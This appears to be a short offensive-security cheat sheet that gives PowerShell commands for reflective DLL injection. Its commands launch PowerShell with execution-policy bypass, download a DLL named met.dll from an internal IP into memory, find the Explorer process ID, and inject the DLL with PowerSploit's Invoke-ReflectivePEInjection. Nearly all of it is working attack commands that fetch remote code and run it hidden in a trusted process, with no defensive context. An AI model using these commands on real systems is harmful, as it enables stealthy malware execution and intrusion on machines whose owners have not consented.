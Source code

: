 #### Open a powershell window with exec bypass
```powershell
powershell.exe -ep bypass
```

#### Load DLL in a byte array and get Explorer PID
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/met.dll')
$procid = (Get-Process -Name explorer).Id
```

#### Use Invoke-ReflectivePEInjection from PowerSploit

Source: https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/

```powershell
Import-Module Invoke-ReflectivePEInjection.ps1
```

#### Supply byte array and process ID to Invoke-ReflectivePEInjection
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```